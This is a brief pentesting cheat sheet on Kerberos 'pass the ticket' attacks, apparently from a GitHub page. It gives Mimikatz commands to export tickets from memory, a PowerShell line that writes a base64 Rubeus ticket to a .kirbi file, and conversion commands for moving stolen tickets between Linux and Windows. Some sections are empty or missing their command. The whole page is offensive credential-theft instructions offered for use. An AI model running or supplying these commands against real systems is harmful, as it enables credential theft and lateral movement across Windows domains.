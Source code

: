 # Pass The Ticket - Ticket Dump
### Retrieve tickets from Linux


### Retrieve tickets from Windows
User can request owned tickets, admin can request all.
`Mimikatz`
	sekurlsa::tickets /export
	exit
`Rubeus`
`\[IO.File\]::WriteAllBytes("ticket.kirbi", \[Convert\]::FromBase64String("<BASE64\_TICKET>"))`

### Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`